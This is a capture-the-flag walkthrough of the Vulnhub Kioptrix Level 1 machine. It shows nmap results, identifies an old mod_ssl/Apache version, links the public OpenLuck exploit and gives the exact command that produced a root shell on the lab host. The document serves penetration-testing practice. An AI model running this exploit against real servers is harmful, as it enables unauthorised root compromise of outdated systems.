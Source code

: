<h1>Kioptrix: Level 1 Write-up</h1>

<h2>NMAP</h2>

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 2.9p2 (protocol 1.99)
80/tcp   open  http        syn-ack ttl 64 Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp  open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   syn-ack ttl 64 Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      syn-ack ttl 64 1 (RPC #100024)
```
Nmap Show's mod_ssl/2.8.4

After little googing i found openfuck exploit:

Exploit : https://github.com/heltonWernik/OpenLuck

To use this exploit, must know exact os and apache version 

From 404 page i found apache version 

Apache Version : apache-1.3.20-16

and on executing the OpenFuck Binary and greping that apache version there are only 2 left 

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%201/Images/openfuck-exp-ver.png)

<h3>Exploiting</h3>

**0x6b** is the exact one :

```./OpenFuck 0x6b 192.168.43.55 443 -c 40```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%201/Images/exploiting.png)

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%201/Images/root.png)
